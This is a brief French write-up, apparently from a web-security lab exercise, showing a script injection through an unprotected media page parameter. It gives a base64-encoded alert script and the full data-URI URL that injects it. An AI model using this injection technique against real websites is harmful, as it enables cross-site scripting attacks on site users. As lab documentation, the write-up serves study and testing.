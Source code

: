 Dans la page [URL]?page=media&src=nsa, la source n'est pas protégé.

Une injection d'un script JS est possible en l'encodant en base64.

`<script>alert("coucou")</script>` => `PHNjcmlwdD5hbGVydCgiY291Y291Iik8L3NjcmlwdD4=` 

A écrire dans la src :

> [URL]?page=media&src=data:text/html;base64;PHNjcmlwdD5hbGVydCgiY291Y291Iik8L3NjcmlwdD4=